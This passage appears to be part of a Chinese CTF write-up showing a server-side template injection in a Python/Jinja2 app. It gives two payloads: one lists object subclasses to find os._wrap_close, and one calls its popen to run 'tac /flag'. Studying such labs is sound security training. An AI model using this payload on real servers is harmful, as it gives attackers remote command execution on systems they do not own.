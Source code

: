 [![在这里插入图片描述](assets/1698900310-c1094834e1df59ba7485f9e2361498be.png)](https://storage.tttang.com/media/attachment/2022/08/14/4f9c861e-cb68-47e7-8225-aba96a332960.png)  
存在 SSTI 模板注入

```bash
name={{request.__class__.__mro__[-1].__subclasses__()[132]}}
```

[![在这里插入图片描述](assets/1698900310-40c57d2b963296f62cb22796ae2a7896.png)](https://storage.tttang.com/media/attachment/2022/08/14/db173acc-832e-40f2-8969-649125e42284.png)  
找到`<class 'os._wrap_close'>`，os.\_wrap\_close 类里有 popen。这里直接利用 popen 来执行命令

```bash
{{request.__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('tac /flag').read()}}
```

[![在这里插入图片描述](assets/1698900310-ecb0219bfe55333252eb35a8ad472042.png)](https://storage.tttang.com/media/attachment/2022/08/14/ba951465-b8ba-4c7d-bf11-7a1a3ad6acc4.png)
